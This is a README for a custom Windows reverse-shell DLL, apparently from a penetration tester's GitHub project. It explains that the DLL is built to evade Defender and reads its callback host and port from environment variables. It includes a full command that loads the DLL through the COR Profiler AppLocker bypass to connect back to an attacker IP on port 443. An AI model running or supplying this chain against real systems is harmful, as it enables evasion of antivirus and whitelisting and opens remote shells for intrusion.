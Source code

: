 ## Description

I've had a couple different instances lately where I had a path to exploit a Windows host that required I bring a dll as a payload. An example is [COR Profiler AppLocker Bypass](https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html), but there are others as well.

With Defender getting so good at catching things generated by `msfvenom`, I've needed to look elsewhere. One options is the Beryllium dll from attl4s of Hackplayers. It gives a meterpreter session, but I don't have the source. I prefer to build my own.  IppSec does this in his COR Profiler video. I'll improve upon that by adding a feature where the callback IP and port are set by environment variable, so that I don't have to recompile each time my local IP changes or I want to use a different port.

## References

- Inspiration drawn from: [IppSec - AppLocker Bypass COR Profiler](https://youtu.be/T91iXd_VPVI?t=240)
- Reverse Shell based on: [tudorthe1ntruder - reverse-shell-poc](https://github.com/tudorthe1ntruder/reverse-shell-poc/blob/master/rs.c)
- Idea for Envrionment Variables drawn from: [Beryllium dll](https://github.com/attl4s/pruebas/blob/master/Beryllium.dll)

## Usage

Reverse shell will connect back to IP and port set in `RHOST` and `RPORT` environment variables. 

For example, to use with COR Profiler exploit, I'll drop the dll on disk and then run (where the path points to the location on disk):

```
cmd /c 'set "RHOST=10.10.14.14" & set "RPORT=443" & set "COR_ENABLE_PROFILING=1" & set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}" & set "COR_PROFILER_PATH=C:\temp\rev_shell_dll.dll" & tzsync'
```
